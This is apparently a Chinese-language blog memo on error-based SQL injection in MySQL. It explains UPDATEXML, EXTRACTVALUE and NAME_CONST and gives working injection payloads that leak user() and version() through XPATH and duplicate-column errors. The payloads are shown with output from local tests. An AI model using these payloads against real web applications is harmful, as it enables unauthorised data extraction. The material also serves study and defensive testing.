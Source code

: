 #Sql注入之报错注入

>本来在上一篇文章中本来说了要把报错注入和出错的原因写完的，但是想了下大多数的报错并不像双查询报错那样原理复杂，很多只是函数的问题，所以这一篇就单纯的作为报错的备忘录，稍带原理

1.**Updatexml报错**
```mysql
mysql> help updatexml
Name: 'UPDATEXML'
Description:
Syntax:
UpdateXML(xml_target, xpath_expr, new_xml)

This function replaces a single portion of a given fragment of XML
markup xml_target with a new XML fragment new_xml, and then returns the
changed XML. The portion of xml_target that is replaced matches an
XPath expression xpath_expr supplied by the user.

If no expression matching xpath_expr is found, or if multiple matches
are found, the function returns the original xml_target XML fragment.
All three arguments should be strings.

URL: http://dev.mysql.com/doc/refman/5.7/en/xml-functions.html

Examples:
mysql> SELECT
    ->   UpdateXML('<a><b>ccc</b><d></d></a>', '/a', '<e>fff</e>') AS val1,
    ->   UpdateXML('<a><b>ccc</b><d></d></a>', '/b', '<e>fff</e>') AS val2,
    ->   UpdateXML('<a><b>ccc</b><d></d></a>', '//b', '<e>fff</e>') AS val3,
    ->   UpdateXML('<a><b>ccc</b><d></d></a>', '/a/d', '<e>fff</e>') AS val4,
    ->   UpdateXML('<a><d></d><b>ccc</b><d></d></a>', '/a/d', '<e>fff</e>') AS val5
    -> \G

*************************** 1. row ***************************
val1: <e>fff</e>
val2: <a><b>ccc</b><d></d></a>
val3: <a><e>fff</e><d></d></a>
val4: <a><b>ccc</b><e>fff</e></a>
val5: <a><d></d><b>ccc</b><d></d></a>
```
可见函数要求第二个参数为xpath格式的字符串，否则就爆出符号错误
```mysql
mysql> select * from users where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));
ERROR 1105 (HY000): XPATH syntax error: '~root@localhost~'
```
2 . **Extractvalue报错**
这个函数和updatexml一样，都是对xml格式数据进行操作，第二个参数也为xpath格式字符串，具体可以help
```mysql
mysql> select * from users where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));
ERROR 1105 (HY000): XPATH syntax error: '~root@localhost~'
```
3 . **Name_const报错**
首先在这里补一个背景知识
1. 在4.1版本后的mysql中支持subquery：也就是一个查询的结果可以作为另一个查询的from对象，可以说是像这样（select * from(select * from a)x）嵌套查询，这里的x是as x的意思也就是alias，子查询需要alias成一个符号才不会报错

ok，先来看看name_cast的help文档
```mysql
mysql> help name_const
Name: 'NAME_CONST'
Description:
Syntax:
NAME_CONST(name,value)

Returns the given value. When used to produce a result set column,
NAME_CONST() causes the column to have the given name. The arguments
should be constants.

mysql> SELECT NAME_CONST('myname', 14);
+--------+
| myname |
+--------+
|     14 |
+--------+

URL: http://dev.mysql.com/doc/refman/5.7/en/miscellaneous-functions.html
```
这是根据name和value生成一个column的函数，结合前面的背景知识我们可以试图构造出和双查询类似的具有相同key值的错误，不过可惜这个利用在高版本中被要求为constants，不然就会先报这个错误，等于是加了个检测，但是在下面的测试中我发现有意外
```mysql
mysql> select * from users where id=1 and (select * from (select name_const(version(),1),name_const(version(),1))a);
ERROR 1060 (42S21): Duplicate column name '5.7.17'
mysql> select * from users where id=1 and (select * from (select name_const(database(),1),name_const(database(),1))a);
ERROR 1210 (HY000): Incorrect arguments to NAME_CONST
mysql> select * from users where id=1 and (select * from (select name_const((select 1),1),name_const((select 1),1))a);
ERROR 1210 (HY000): Incorrect arguments to NAME_CONST
```
发现了吧 version()还是可以爆出来的...

还有一些网上写的函数发现本地没有爆出来，就暂时不写上来了，下一篇盲注